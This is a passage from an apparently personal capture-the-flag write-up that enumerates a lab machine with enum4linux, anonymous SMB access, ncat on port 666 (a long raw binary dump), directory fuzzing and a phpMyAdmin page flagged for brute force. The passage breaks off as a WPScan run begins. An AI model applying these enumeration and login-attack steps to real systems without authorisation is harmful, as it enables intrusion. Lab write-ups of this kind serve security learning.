S-1-5-21-864226560-67800430-3082388513-1044 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1045 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1046 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1047 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1048 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1049 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1050 *unknown*\*unknown* (8)
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\peter (Local User)
S-1-22-1-1001 Unix User\RNunemaker (Local User)
S-1-22-1-1002 Unix User\ETollefson (Local User)
S-1-22-1-1003 Unix User\DSwanger (Local User)
S-1-22-1-1004 Unix User\AParnell (Local User)
S-1-22-1-1005 Unix User\SHayslett (Local User)
S-1-22-1-1006 Unix User\MBassin (Local User)
S-1-22-1-1007 Unix User\JBare (Local User)
S-1-22-1-1008 Unix User\LSolum (Local User)
S-1-22-1-1009 Unix User\IChadwick (Local User)
S-1-22-1-1010 Unix User\MFrei (Local User)
S-1-22-1-1011 Unix User\SStroud (Local User)
S-1-22-1-1012 Unix User\CCeaser (Local User)
S-1-22-1-1013 Unix User\JKanode (Local User)
S-1-22-1-1014 Unix User\CJoo (Local User)
S-1-22-1-1015 Unix User\Eeth (Local User)
S-1-22-1-1016 Unix User\LSolum2 (Local User)
S-1-22-1-1017 Unix User\JLipps (Local User)
S-1-22-1-1018 Unix User\jamie (Local User)
S-1-22-1-1019 Unix User\Sam (Local User)
S-1-22-1-1020 Unix User\Drew (Local User)
S-1-22-1-1021 Unix User\jess (Local User)
S-1-22-1-1022 Unix User\SHAY (Local User)
S-1-22-1-1023 Unix User\Taylor (Local User)
S-1-22-1-1024 Unix User\mel (Local User)
S-1-22-1-1025 Unix User\kai (Local User)
S-1-22-1-1026 Unix User\zoe (Local User)
S-1-22-1-1027 Unix User\NATHAN (Local User)
S-1-22-1-1028 Unix User\www (Local User)
S-1-22-1-1029 Unix User\elly (Local User)
[+] Enumerating users using SID S-1-5-32 and logon username '', password ''
S-1-5-32-500 *unknown*\*unknown* (8)
S-1-5-32-501 *unknown*\*unknown* (8)
S-1-5-32-502 *unknown*\*unknown* (8)
S-1-5-32-503 *unknown*\*unknown* (8)
S-1-5-32-504 *unknown*\*unknown* (8)
S-1-5-32-505 *unknown*\*unknown* (8)
S-1-5-32-506 *unknown*\*unknown* (8)
S-1-5-32-507 *unknown*\*unknown* (8)
S-1-5-32-508 *unknown*\*unknown* (8)
S-1-5-32-509 *unknown*\*unknown* (8)
S-1-5-32-510 *unknown*\*unknown* (8)
S-1-5-32-511 *unknown*\*unknown* (8)
S-1-5-32-512 *unknown*\*unknown* (8)
S-1-5-32-513 *unknown*\*unknown* (8)
S-1-5-32-514 *unknown*\*unknown* (8)
S-1-5-32-515 *unknown*\*unknown* (8)
S-1-5-32-516 *unknown*\*unknown* (8)
S-1-5-32-517 *unknown*\*unknown* (8)
S-1-5-32-518 *unknown*\*unknown* (8)
S-1-5-32-519 *unknown*\*unknown* (8)
S-1-5-32-520 *unknown*\*unknown* (8)
S-1-5-32-521 *unknown*\*unknown* (8)
S-1-5-32-522 *unknown*\*unknown* (8)
S-1-5-32-523 *unknown*\*unknown* (8)
S-1-5-32-524 *unknown*\*unknown* (8)
S-1-5-32-525 *unknown*\*unknown* (8)
S-1-5-32-526 *unknown*\*unknown* (8)
S-1-5-32-527 *unknown*\*unknown* (8)
S-1-5-32-528 *unknown*\*unknown* (8)
S-1-5-32-529 *unknown*\*unknown* (8)
S-1-5-32-530 *unknown*\*unknown* (8)
S-1-5-32-531 *unknown*\*unknown* (8)
S-1-5-32-532 *unknown*\*unknown* (8)
S-1-5-32-533 *unknown*\*unknown* (8)
S-1-5-32-534 *unknown*\*unknown* (8)
S-1-5-32-535 *unknown*\*unknown* (8)
S-1-5-32-536 *unknown*\*unknown* (8)
S-1-5-32-537 *unknown*\*unknown* (8)
S-1-5-32-538 *unknown*\*unknown* (8)
S-1-5-32-539 *unknown*\*unknown* (8)
S-1-5-32-540 *unknown*\*unknown* (8)
S-1-5-32-541 *unknown*\*unknown* (8)
S-1-5-32-542 *unknown*\*unknown* (8)
S-1-5-32-543 *unknown*\*unknown* (8)
S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)
S-1-5-32-1000 *unknown*\*unknown* (8)
S-1-5-32-1001 *unknown*\*unknown* (8)
S-1-5-32-1002 *unknown*\*unknown* (8)
S-1-5-32-1003 *unknown*\*unknown* (8)
S-1-5-32-1004 *unknown*\*unknown* (8)
S-1-5-32-1005 *unknown*\*unknown* (8)
S-1-5-32-1006 *unknown*\*unknown* (8)
S-1-5-32-1007 *unknown*\*unknown* (8)
S-1-5-32-1008 *unknown*\*unknown* (8)
S-1-5-32-1009 *unknown*\*unknown* (8)
S-1-5-32-1010 *unknown*\*unknown* (8)
S-1-5-32-1011 *unknown*\*unknown* (8)
S-1-5-32-1012 *unknown*\*unknown* (8)
S-1-5-32-1013 *unknown*\*unknown* (8)
S-1-5-32-1014 *unknown*\*unknown* (8)
S-1-5-32-1015 *unknown*\*unknown* (8)
S-1-5-32-1016 *unknown*\*unknown* (8)
S-1-5-32-1017 *unknown*\*unknown* (8)
S-1-5-32-1018 *unknown*\*unknown* (8)
S-1-5-32-1019 *unknown*\*unknown* (8)
S-1-5-32-1020 *unknown*\*unknown* (8)
S-1-5-32-1021 *unknown*\*unknown* (8)
S-1-5-32-1022 *unknown*\*unknown* (8)
S-1-5-32-1023 *unknown*\*unknown* (8)
S-1-5-32-1024 *unknown*\*unknown* (8)
S-1-5-32-1025 *unknown*\*unknown* (8)
S-1-5-32-1026 *unknown*\*unknown* (8)
S-1-5-32-1027 *unknown*\*unknown* (8)
S-1-5-32-1028 *unknown*\*unknown* (8)
S-1-5-32-1029 *unknown*\*unknown* (8)
S-1-5-32-1030 *unknown*\*unknown* (8)
S-1-5-32-1031 *unknown*\*unknown* (8)
S-1-5-32-1032 *unknown*\*unknown* (8)
S-1-5-32-1033 *unknown*\*unknown* (8)
S-1-5-32-1034 *unknown*\*unknown* (8)
S-1-5-32-1035 *unknown*\*unknown* (8)
S-1-5-32-1036 *unknown*\*unknown* (8)
S-1-5-32-1037 *unknown*\*unknown* (8)
S-1-5-32-1038 *unknown*\*unknown* (8)
S-1-5-32-1039 *unknown*\*unknown* (8)
S-1-5-32-1040 *unknown*\*unknown* (8)
S-1-5-32-1041 *unknown*\*unknown* (8)
S-1-5-32-1042 *unknown*\*unknown* (8)
S-1-5-32-1043 *unknown*\*unknown* (8)
S-1-5-32-1044 *unknown*\*unknown* (8)
S-1-5-32-1045 *unknown*\*unknown* (8)
S-1-5-32-1046 *unknown*\*unknown* (8)
S-1-5-32-1047 *unknown*\*unknown* (8)
S-1-5-32-1048 *unknown*\*unknown* (8)
S-1-5-32-1049 *unknown*\*unknown* (8)
S-1-5-32-1050 *unknown*\*unknown* (8)

 ============================================== 
|    Getting printer info for 192.168.43.10    |
 ============================================== 
No printers returned.


enum4linux complete on Tue Sep 25 14:17:16 2018

[GandoPC 192.168.43.10]# cat users.txt
S-1-22-1-1000 Unix User\peter (Local User)
S-1-22-1-1001 Unix User\RNunemaker (Local User)
S-1-22-1-1002 Unix User\ETollefson (Local User)
S-1-22-1-1003 Unix User\DSwanger (Local User)
S-1-22-1-1004 Unix User\AParnell (Local User)
S-1-22-1-1005 Unix User\SHayslett (Local User)
S-1-22-1-1006 Unix User\MBassin (Local User)
S-1-22-1-1007 Unix User\JBare (Local User)
S-1-22-1-1008 Unix User\LSolum (Local User)
S-1-22-1-1009 Unix User\IChadwick (Local User)
S-1-22-1-1010 Unix User\MFrei (Local User)
S-1-22-1-1011 Unix User\SStroud (Local User)
S-1-22-1-1012 Unix User\CCeaser (Local User)
S-1-22-1-1013 Unix User\JKanode (Local User)
S-1-22-1-1014 Unix User\CJoo (Local User)
S-1-22-1-1015 Unix User\Eeth (Local User)
S-1-22-1-1016 Unix User\LSolum2 (Local User)
S-1-22-1-1017 Unix User\JLipps (Local User)
S-1-22-1-1018 Unix User\jamie (Local User)
S-1-22-1-1020 Unix User\Drew (Local User)
S-1-22-1-1022 Unix User\SHAY (Local User)
S-1-22-1-1023 Unix User\Taylor (Local User)
S-1-22-1-1024 Unix User\mel (Local User)
S-1-22-1-1025 Unix User\kai (Local User)
S-1-22-1-1027 Unix User\NATHAN (Local User)
S-1-22-1-1028 Unix User\www (Local User)
S-1-22-1-1029 Unix User\elly (Local User)
</pre>
<p><font size="3.5" color="black">Shares and users are discovered. I added those users to the list:</font></p>
<pre style="background-color:black;color:white;">
[GandoPC 192.168.43.10]# cat users.txt | cut -d '\' -f2 | cut -d ' ' -f1 >> potential_users
Elly
John
Tim
zoe
Fred
kathy
peter
RNunemaker
ETollefson
DSwanger
AParnell
SHayslett
MBassin
JBare
LSolum
IChadwick
MFrei
SStroud
CCeaser
JKanode
CJoo
Eeth
LSolum2
JLipps
jamie
Drew
SHAY
Taylor
mel
kai
NATHAN
www
elly
</pre>
<p><font size="3.5" color="black">Next, I tried to dig for some info:</font></p>
<pre style="background-color:black;color:white;">
[GandoPC 192.168.43.10]# smbclient //192.168.43.10/kathy -U "" -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jun  3 19:52:52 2016
  ..                                  D        0  Tue Jun  7 00:39:56 2016
  kathy_stuff                         D        0  Sun Jun  5 18:02:27 2016
  backup                              D        0  Sun Jun  5 18:04:14 2016

		19478204 blocks of size 1024. 16395204 blocks available
smb: \> cd kathy_stuff\
smb: \kathy_stuff\> ls
  .                                   D        0  Sun Jun  5 18:02:27 2016
  ..                                  D        0  Fri Jun  3 19:52:52 2016
  todo-list.txt                       N       64  Sun Jun  5 18:02:27 2016

		19478204 blocks of size 1024. 16395200 blocks available
smb: \kathy_stuff\> get todo-list.txt 
getting file \kathy_stuff\todo-list.txt of size 64 as todo-list.txt (2.2 KiloBytes/sec) (average 2.2 KiloBytes/sec)
smb: \kathy_stuff\> cd ../backup\
smb: \backup\> ls
  .                                   D        0  Sun Jun  5 18:04:14 2016
  ..                                  D        0  Fri Jun  3 19:52:52 2016
  vsftpd.conf                         N     5961  Sun Jun  5 18:03:45 2016
  wordpress-4.tar.gz                  N  6321767  Mon Apr 27 20:14:46 2015

		19478204 blocks of size 1024. 16395200 blocks available
smb: \backup\> get vsftpd.conf 
getting file \backup\vsftpd.conf of size 5961 as vsftpd.conf (166.3 KiloBytes/sec) (average 117.1 KiloBytes/sec)
smb: \backup\> get wordpress-4.tar.gz 
getting file \backup\wordpress-4.tar.gz of size 6321767 as wordpress-4.tar.gz (778.7 KiloBytes/sec) (average 770.5 KiloBytes/sec)
smb: \backup\> quit
</pre>
<p><font size="3.5" color="black">Nothing interesting in "vsftpd.conf" and "wordpress-4.tar.gz".</font></p>
<hr>
<br>
<br>
<p><h3>Port 666 check:</h3></p>
<hr>
<p><font size="3.5" color="black">Attempt to communicate with port 666 using ncat:</font></p> 
<pre style="background-color:black;color:white;">
[GandoPC 192.168.43.10]# ncat 192.168.43.10 666
PKdýýHpýýý,2
                 message2.jpgUT	+ýQWJýQWux
                                                   ýýz
                                                           TýýýPýýýA@ý ýUTýTý2>ýýRDKýJjý"DL[Eý
                                                                                                   0<4ý®nýýýVýWýH ýýýý
_ýdrýýý9ýýuýYý3oXýYý2ýeýýýýý=2ýýýy}ýaýýýý>`ý ý:ýyýýýýý^ýýsCýý
                                                             ýýnc$Iýý+jý[ýýýýý=,šýýýýsý½ýýýýisýM?ýýýýeYýýýýýýýý]sSýbQýýýýýAoAýý9ÂýýýxýOY4ýýýý1ýNýýý3wýýý&&qýý'iýfLýý\ýýýšýý:ýiýrýýýý{ýýý:iýkýýTýý/ý-W÷&ýNý<ý\.ýýý$ýýý^ýýýgý.¼ý|Wýýýýýýjýf~ýýx'ý|ùOýýýý`a"ýKVýý
ouýýýý7ý|ýýÄOýnK>#)ýýý{ýýýg8ýu([rýH~AýqYQqýwýý?}ýý?ýýTyýýjkýýSWýýýýýýfýFýkýýýýyýýýýýýY_?n2ýýýÆ^
                                                                                               ýýýýýmýýf".ýý?Býýýý,ýý[ý&ýNbMýýýVýý	3&M~{ýýýý-ý]_ýý[qtýýýo/¶ýýýýýýýÏýýýý_@Nýýýýý{ýýEýýýýýýýiý.Lý\gDýýpýýýYm
SWbýNý&ýýývOý3A#ý,ýý^ýýýýýý4ýCHý}ýý~ýRý`wTýýKTamÙfýý'ýýST%ý5ýý
ýýL}AJýHý2ý(OkiýýýýdNýýý.npy.9ýýRr9ý®ý#ýOgýýý~ý]VýBGuýý=ýýýHUýýýIýýGTQýýýý
                                                                                  Lý’ýýýý*P?ýýýýDfvý`ýýkýSýP0ýýý
ýýýqý2ýýýtýwýýýý;ýýýýGýýýýý?P]ýVýýý4ýh(}]LEýHiýýý2~ý@ÝýxnaýýUýýý'4ýzýý%jow^Moý~:ý ýýyÍo½nýýýý=faýýýrýpýýýUýtýyýýB~q^7ý,ýýý:ýý©;ýýýý{ýýýO 1MýÁýýýýTýýYýýýýO°7ý:ý/ý7;ýý"3\ýýlt6"9:ý?ý,ýýýýMyýT1ýýý2ýx5
                       ýýzýýzýý(hoýýýcGBn]ý3ýý7ýýJAý"¹
                                                        ýýrýej.ý~ý\G Býýýuýýýýýýý!ýBaBýVý'9ý2ýýTý|ý,ýýýý=ý)pýýwýýýýý]T4ýbýýýýý&ýký]7ýýciY"I4ýP
                                                                                                                                                  nýýýýýýaýtýýýýýý7ýýeý'Qnqýýýlýýýý0ý#Uýbý7?ýýýýýý_ýýS7ý#ý:ýW]ýýýoý4ýýý—ýýýýUyýJUýý~ýý+wýýýý*lý)7c_ý\rz>0m
v^Effu|LX+/Sýýdýýyýý#                                              ývÃFýq=ýýuýýýýýýýý:ýýc$Gýg}}ýýliiýýýýpý8.ýý$9c5ýxýzýýPýýýuýýýiWýý%ýtU:ýýýpBSKýýýýývýýaýý>ýýýU@ýýýý:!u8ýô=ýgýýaý
1ý_ýýýdý_ýýýýýýýýý~Wýýýýcý.>ý1GýýeýbýýAýýýýýýý_ýýAý'¾ýLýýfhiýýý4ýy{ýýý%ý0kývqýýýjkjýFýýhýýýuýUGjýý'ýý2ýýýT`(]Iývýýýýý9Aýýý¬ýýG*ýýH8ýý5ý>]ý2ý
                                                                                                                                                       ýýýý0ý}ý$rýsf*Pb8ý(ý[ý)ýýO—eýý1ýýý}
   ý6ýýMGnýý.ýý
ýý6ýý.Rý.,ýUýýiýz+4ýýý,LwBýb*”sýý.2"nkýb/\Mý<r1býýOi6ýý^~ýýý=Sýý*ýýwýhYdýSý:ýzdýZSiýý]ýAýLHý3)ýxý~c(^yýK"zmý[Mýý™ý%ýýýýðýýýMýG@ýjUýtýTýý3>výq¡0ýý
TlOýýXýýaý<ýýýový)ýZýfý?ýýýýý:ý0>ýýý<ýý,ýýý%*Dý
ý9$Fýýý$+?aýKýhN

TLkyýý%ýý_ý|PýýýýýdýY&oýý<ýýB8úýýý!ýýýR/\_vi%rýýýKNýMý"ýý1ýSýýQ0ýýýýl
9ý`PýI<ýýýýýýýýýý-ý$UýzýýýýýUt}ýýý5Q2ýýýýSý'Jýý8ý@%ýý[
ýaý;ýký2ýýPrýýýKýýýýýaýý9ý|ýýd                            ýý¾TýTýýMý;ýxLýýýMýýýNýýSZA4ýJýýýý|ýýýýýNýýý
7Výýmtý#j->P: gýýVý
                   *ýýýýiý²ýýýjýcRMýýý(ý^ýý“ýý4ý}kF<$Bj$ýýý~ýýCýý">ýý(ý7ý}2<ýi_1ýý*ý
                                                                                              	ýý(ýýj•Sýýýv:ýýzXýwýý=ýýý!ýýýýýJEýýý^iýýžj?;2ýýiqB'ýýýýmýX:o4)ýýý~ým?ý)CýFýýýýýsBýý$ýedý]ý4­ýL3ýýaýý
            aIg
               %ýýsýý|:ýý>³ýyR(ýˆ*U\ý\Rû2jýký2ýýýýý&R{ ýDbý9˜hsBý(ý,/||@ýJýýýý¾1ýýÙý
                                                                                       ýxý|ýý^@ýýýzýý|dpcývý0ýýk@ýÃýý
týýp)ýýýKQAýýýýnBýý!ýI$ý$\ýc*ýýýýýMrýýýýHZ|ýyýým®’ze0ýýSýý>ýBL5s}eýz'ýýý$F2ýýýýc*ýýýýýýýfýýýýýZýdýOý
                                  ýýý]FýýIýbbz#ýýz.iýýS?gXýýýýýqýý(ýýýýM-!M$ýý8eýkQýeýy}ý&Eýýýýýýý%\ýj|9ýýýVý2EqýýýýýsýH6pVnYpý<ýýfýýýýýýýýýýýýyýýK}ý:gýJ0ÂCYý{ýýo*%ý4ýýývý výýýaýýýývWýi~ýýýtýý	ýý2ýýýýjýS%j{ýýýýýýýLý#=ýý3ýýýý
                                             mýýýýý	eýýý;ýIýe·\Kýýý£ý-Kr
                                                                              ýý%Eýýýaýýý-3ýýýý.ý`T0ýýý4ýýýýý:ýJXDýýýýˆxýýýHPý`ýýýoýQBýý1ý~ýýnýýýýýgýý=ýýFýyýiý
                                                                                                                                                                        ý_výL&e:UýýLý
                                                                                                                                                                                        ý
                                                                                                                                                                                         ýýýM"x`ýý^x+o*ý\ýH9
                     WýýJT~ý;"?ý‹qýý=ýxýýýý&ýýýýAý2ýýýEduS.xýýý×ýýfýXý`?ýýý%ýýýý5ZýýýBdýR5ýýý{k#2	ýý
                                                                                                                   jýaýýýýeýýýbXlýý=ýýýZý&Ký}ýDýýý4ýNrLýdFý	ýýý]%Wý}1ýt%o
~ý5ýý
      Ðý'ýýý*ý`cýý?7]ýýýý
ýDE|7ý{ýýAýý_ýl5cýýý3ýý1ý8ýIýwyý(fýUAýý(Dý\ýýZýBýTýýýdýWStý#Yýýý!ývtýýQýGý:R5ýeTv+ýLÊýýU)KýýýJýýýýkfýryXýýýý4m$ýjýýDoý?ýý„ýýýýý=ýTýsýýwýýSLýýýýYýMýa"km_ý-jUýý6?hhýýj'92t-ýýUýý{d7%ý:ý'
ý(cý         ýý5)ýýxý^ýlýýýuGîý2ýýýýýýýýýýýý-lýo)ý(mMýýýýýK}ýJýi:ý6ýapý\%ýp ýý}ý V9ýw<ýýýýýýýý
    ýýýaeLýŒýyý9ýýQ6ý¹
                        ýýoýýBýý
                                 2_ý.x2ýýýH7ýýý8ý/ýLeýýýý0ýýýý$ýUý\[ýývýE?WVý~ýÑýýýýýzýýýP5ýiýaýýý"dýýýýEýýýýýe4ýýýýVK}ýýýý*ýýýýS"ý4ýý[ýý=Cýýt??ýq}{Cýgwýý2Sýuýüýý#4ýýýýýý?ýýqO;ýýýC1ýýý7ý:VýoýýýgýS]uý#ýk"ý;ýýMrQRx1y]ýC$ýýýwýýUýnR5ýýýýGýýýmWAýý~ýý_^0RkfýýýWSýÛý0ýý^uýIý?=ýC{ýý1ýým yýýý"ýýMý7ý§ýšV0ýýo	j)>ýýý<:ý$ýý&9yý#ýkbýO']B2bý#ýhYýAýýý\ýý)Yoýýýtixyeýý
   	A2;{eýýzýý
                 ýýýPýsýýý@ýýKýýCýýFJývýgýýýýwTJý6;.,ýý)fýýýýjÛý*ý.8ýQýSýdyLwý4ýý#2ý[ýýˆ{ý>ýnýNý%ýzýýUjýýýýýXAýDëh7ýý)'ýýVýpýLýýlýýý1ýýý0uýý6ýýýqBýý_ýPI9ý'$Wý@Rýý	%ýýý4v[0ý«ýý2DýýtýpGwv/ýDr:NýZýSýý|ýýwýÄ%ýýýe7ýLý±BýCb2ýcýiýdýMýý
              ýýýýýpn+pýýýýý@3ýPýýým6ýkýýZ1 bdýXG*4ýDýqBÞ3ýVGþgcýýx6ýýiýoýýýZ%fCýýwýýqkýSýCý&ýQJýýýýýc
3ýýýýýý]`ý¾8ý1*pýZýýý7ý
                      výýý7ýýýýfýýý9ýýýlRopGýýý?Jýýý<ýýýXKý[fm4~01ýý]:?Oý	
ýýYýý_#ý¬ý>cý>8ý)ýÝ HuBýkýýý. uq}|ýýýýqý9~fMý’ýýý<ýýýýý%ýPQýýUýýýlý%ý:ýgbJ8ý8xýýý!ýlýýóýA_]ý#ýýKý9býn}ýk~?<ýa_ýý
                                                                                                                    ýý
                                                                                                                      ýý8ýPý
                                                                                                                             ý
ý>R=Zýý%ýX5ý3]ýSýVýý`Eý¿Uýýý”45ýýSý4ýDýýýLýýýd)=;Ms_ýýý]HýNQ,ý$j
ýý"ý~[ýe
{ý.ýe.ýý=l býýý:ýýýýý7ý=
                         4ý1]Mýý.:XýýýýZý*ýýJ
                                             ýzWýýýDýSýý
%ýýýýýyý,Aý ýýý=L<ýý0IýýGGýýÞ
                                  ýýQ"&{Týýý}u4ý{ý2cýýýýýýýýýýý+~ýýýýaçýýýIýcýýýLýýýýmLýýý|Sýý/ýi-
ýfýJýPýý{4ýýýeýýWýýý>8›ý\ýý1ýý^ýý@*ý,ýB—ýýýýUý[qý&ýý                                             %ýý~ýýZýEýf
                                                         ýQ±ýýýkýý(1\k-J
ý+ýýýýýfqýýc"\ýý	ýýýzM$ýoýýCýýýýý*Gýýýýý/Rýýýý>.ýtýýzý
	ýýFýýIýýýýýý"ý
                      >Jvýýýýýý9ýR
5`Rýýýtýýý^ý[ý>ýýýdýýQxý4GRýiý%ýý“ýýhxný&j^`ýýýRýýGýNRýý%jý]ýi^LýýeLýtBýýýýKTýýDýzý 7ýýWwBn
ý3o#ý9ýgzý)wýý výPi HQTO5ýýýKýAýýPýýýý;[nýxKtýýxUýýÕýýýýýLýýýýEt@lŽ.jýýýHýýýý"ýýV+fýýý4QOýý)tBýýýýý=}ýq#ýýrý%t!c\‹Oý7XýýBrýýdy"ýýýýsýsýTýpýDýý5ýLk)IYýýýýýý`t0ýýý/Zýýýýýdeý&ýýý&ý->ýý$klÁXýýý¤×rýwýýýTýÜtýMýýýý9ýlxKo;8$ýýQa}Lý\ cký
                                                         ýBi
                                                            i`o#ýý$>V1_\ýýý'ý2ýýýCý\ýýýýýcêrýT.'ld½+ýý@nýýý_\1U8ýýýýýý6ýýýýý6¶WUý
ý8nýIýýSýcr&,zý-ýàkýýIýýSgTSaýSGNýýý)j4
Lýý!ýý|ýRaOmKý&ýýýq;Fý
ýýý@lG>-5ýmý

ý>ný%}<8       ýýýaýdýýcýýýýýýfýJ]ZIýýAýýýkýýýýýg}]výt#ýý"ý&ýý]ýZýý$ýgý'býPý
/ý]R*ýýdx;\ýý)=ýýýEýýý	ý,ýýQ_ý]Cý&ýý7ýýýýý~ýdýýýýW+ý2ýýv.hý2;ýýhYeý3JýPýýýýýX]M[ýýyýýýLýUýýV}ý8ýýfý,ýgeýýý|Ï-ýý
Zý!oý
       a ýlýýýý($ýý$ýLýMóýýý=ýý7ýZýg'DMý½oýIývýýý.HJýnbýý7ýýýßK4ýýbSýýýHýý+ýcýý
                                                                                  Yý9ý\ý($ýýýý
ýýý%ý	_ýý6ýiýRFýýSýIG{ýýýCOyý(ýHýýýýý,ýýýgýýrýWCýýðzýýeaýxjýýýýZýýB]ZýdS[ýuXýýýh}ýP{fQýý_ý,ýNhýý{ý;}_41ýd"ýýý"ýý"
UýNýý:ýý)}ýýýýekýýý™atýAýý{ý"ùý                                                                                                 ýýýVýýGOý+
ýýÖýýýýýdý&~ýOýýrýý<ý/ýý2ýýpýýýDý{gýýýýC0zý]ýe
                                                 ýýýýýýýA\^uls%ýýýý
                                                                    ýýu|ý6ýýýýýýýgýwiýTýý;ý	Uý,i?]ýXýýýýý
ýýýýýzPý(/Bfuýý9Xý@ý|S"2(ý'ýý`ýýýSýý`]Kýý%ý	ý'Zý"pýAý)ýýýýýTýYmýý8s
ýý^aQýýdýýýýý$ý^ýýý?b2cýýNýýýýýRýýýýEFýýýý-ýýý4ýIýVKýýý]ýýýýýýý#ýýDvYýý1d2ýý'ý
`ý                                                                                                                                                           _ýtý#Ùýsýýý;uqýmý
ýEý8Kýýý^ý
          ýý5Nhz	cccý

                            ý\Sý
ýOXý3ýýlG(ýýý~ýýýýr0*uý85_ýýMýýý:
2ýýý%\ýýýýTý>ýrý\fýey~;ýýýýc›ýFyQýjGýýq>ýgKkýý/ýG4ýýýý|@ýsýB
ý…ýýýý}ý_ý)Iýý=Âý=ýýýý7ýýýý~ýý9U7ýkýýýýýýýýWýýýýýC3ý
                                                    ýýýzýkýýýdýFýNa73Rý%9'ýýýý[ýl&Z*ýKýýrýPýýýTýŠýý:ý~Uýý!&ýýý
                                                                                                                   Tý
                                                                                                                      |ýýIIýýPqwýý,ýa
                                                                                                                                       ýTýL6ýýEýFýýn$ý'Jýýýcýýý`ýDý+TVM_ýý{ý
h$ýý-[12Fý:ý	ýýWý9cýýýrý)ýýý9ýybýý%ýýýýýýlRýýýãýN=ýfýý_ýý9ý;*ýTwFýOýb
"ýOýcýýFýýuUýlgý3ýÃeQX4ýý:ýýnY°ýqý@%ýýýýýýFýV. }„~s?gý:ýSkýd(_Lýýý>8ýýýýýýTIýý~ýýNýýrNAý7ýýý6ý
ý                                                                                                     ýsU>Sýbýj"ýýý gýýýký ýýUMýOEýý8ýýýeýý%#/ÙEýýývý?ýýKhýýýHýý$ý=ýýb;!(ý(ýýe1ýýý3ýý
 ýýýs@ýiýPýÖý~ýý|ýýýýýsýýýuýLSýeýýpýmýfýFcýý5jd?ýýRsg	?ýLýýyBýýdSýi[$ýýýýý4\<ýrRýý0ýý_YxýA|ý^ýýýd<ýHýý8#ýýý
                                                                                                                        *G*|ýý@U^ý?ýýiýý1ýý)ýý?Rý=ýý
Vý=ý;ýýýDbý2ýý>ýýa'ýý*ýýý
                              ýý$$ýýIxý}ýý$[ýýýýýýý8xý/0ý|ýýpojeýný"}ýý3ýýA6ýB	]ýý#ýý{6ýAýLrM,{2XýýK·µB-ý*Kýiýýý'pýý^ý+uýýOýJýDu5Gsý\ýýýD\ýýýFýý´ýfýýW3ýý.ýýVýýn4ý_rý,ýoAýý
                                                                                                                                                                                           ýfOlýqRýýýýýýýýýýHKý]ýd=ýý&RÛýN,{}ý=ýýRýMýýtýIý/Lýý-}ýý.ý-ýýn"%¹ýaýý^ýý}ý2ý!0ýjB#ý}#ýgýywýý/ýýýýýý$ýJŠ.wýyý‰[eý
9<@ý=ýýFýviýý!e:$p738ýZý ýGýxýý~ýýOýyfŸýýQýý;ýýiý 6FKýhýxýýýTýý mýýý
                                                                           2ýýjýýýiýýý4*ýývýPý'|ýý+8 výhýýoB7ýý2e1ýnaý;ýHýýOM8Gý/ý^ýý*Iýý'ýý<ý\B#ýý¾ýýý7Rýý‘ýýý"~N1ýogýýaýýp]Kýý£#hý:ýpýýýM$ýýa\5yo
BVQý29fk>ýýýý/l0ý^ýlýý
9Dýý4ý9qýBaýXVt÷ýý`ýKýe%9Nýrýýýýýýýqýýýý_PKdýýHpýýý,2
                                                             ýýmessage2.jpgUT+ýQWux
                                                                                     ýPKRý,^C
[GandoPC 192.168.43.10]# ncat 192.168.43.10 666 > pic.jpeg
[GandoPC 192.168.43.10]# file pic.jpeg
pic.jpeg: Zip archive data, at least v2.0 to extract
[GandoPC 192.168.43.10]# unzip pic.jpeg
Archive:  pic.jpeg
  inflating: message2.jpg

[GandoPC 192.168.43.10]# strings message2.jpg
JFIF
vPhotoshop 3.0
8BIM
1If you are reading this, you should get a cookie!
8BIM
$3br
%&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
 #3R
&'()*56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
/<}m
>,xr?
u-o[
Sxw]
v;]>
|_m7
l~!|0

>5[^k
;o{o
>xgH
mCXi
PE,&
n<;oc
*? xC
~ |y
6{M6
</pre>
<p><font size="3.5" color="black">Nothing on port 666, but at least i have a cookie ;)</font></p>
<hr>
<br>
<br>
<p><h3>Port 12380 check:</h3></p>
<hr>
<p><font size="3.5" color="black">Attempt to access via http port 12380:</font></p> 

<br>
<br>
<p><font size="3.5" color="black">Interesting. Next, I tried to spider and fuzz it:</font></p>

<br>
<br>
<p><font size="3.5" color="black">A message from HR department has been discovered:</font></p>

<br>
<br>
<p><font size="3.5" color="black">I took this base64 string and I tried to convert it to an image, hopefully to get some information inside:</font></p>

<br>
<br>
<p><font size="3.5" color="black">Unfortunately, I got an error.</font></p>
<p><font size="3.5" color="black">Attempt to access via https port 12380:</font></p>

<br>
<br>
<p><font size="3.5" color="black">Real quick, I started to fuzz for some directories and files:</font></p>

<br>
<br>
<p><font size="3.5" color="black">I found a phpMyAdmin page that i can use later for brute force attack or just a simple login:</font></p>

<br>
<br>
<p><font size="3.5" color="black">/Announcements directory was found too:</font></p>

<br>
<br>
<p><font size="3.5" color="black">There's a message inside:</font></p>

<br>
<br>
<p><font size="3.5" color="black">Not something important except for additional user name.</font></p>
<br>
<p><font size="3.5" color="black">Robots.txt is presented too:</font></p>

<br>
<br>
<p><font size="3.5" color="black">/admin112233/ directory:</font></p>

<br>
<br>
<p><font size="3.5" color="black">Troll.</font></p>
<br>
<p><font size="3.5" color="black">/blogblog/ directory:</font></p>

<br>
<br>
<p><font size="3.5" color="black">Nice.</font></p>
<br>
<p><font size="3.5" color="black">Spidering and fuzzing the target URL revealed that it runs on Wordpress:</font></p>

<br>
<br>
<p><font size="3.5" color="black">Then, I ran WPScan in order to enumerate plugins and users:</font></p>
<pre style="background-color:black;color:white;">
